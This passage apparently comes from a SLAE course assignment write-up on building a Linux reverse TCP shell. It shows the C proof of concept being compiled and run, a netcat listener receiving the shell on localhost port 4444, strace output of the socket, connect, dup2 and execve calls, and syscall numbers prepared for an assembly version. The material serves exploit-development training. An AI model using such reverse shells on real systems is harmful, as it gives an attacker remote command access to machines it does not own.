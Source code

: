 #### POC (C Code)
------

The C code is compiled as an executable ELF binary and executed:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc reverse_shell_tcp_poc.c -o reverse_shell_tcp_poc
osboxes@osboxes:~/Downloads/SLAE$ ./reverse_shell_tcp_poc 

```

A separate terminal demonstrating a successful reverse connection and shell on the local host (via port 4444):

```bash
osboxes@osboxes:~$ nc -lv 4444
Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

#### Reverse TCP Shell in Assembly
--------------

Strace is used to debug and monitor the interactions between the executable process and the Linux kernel, visually showing the system calls for the Reverse TCP shell:

```bash
osboxes@osboxes:~/Downloads/SLAE$ strace -e socket,connect,dup2,execve ./reverse_shell_tcp_poc 
execve("./reverse_shell_tcp_poc", ["./reverse_shell_tcp_poc"], [/* 21 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0
```

Note the various syscalls in the C code which will be utilised in the upcoming Assembly code:

* socket -> Creates a socket
* connect -> Initiates a connection on a socket
* dup2 -> Redirects STDIN, STDOUT, and STDERR to the incoming client connection
* execve -> Executes a shell

The syscalls in the C code relate to the following numbers as referenced below in the header file:

```bash
osboxes@osboxes:~/Downloads/SLAE$ egrep "execve|dup2|socketcall" /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_execve		 11
#define __NR_dup2		 63
#define __NR_socketcall		102
```

A socketcall is defined in the man pages requiring 2 arguments, call and args:


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1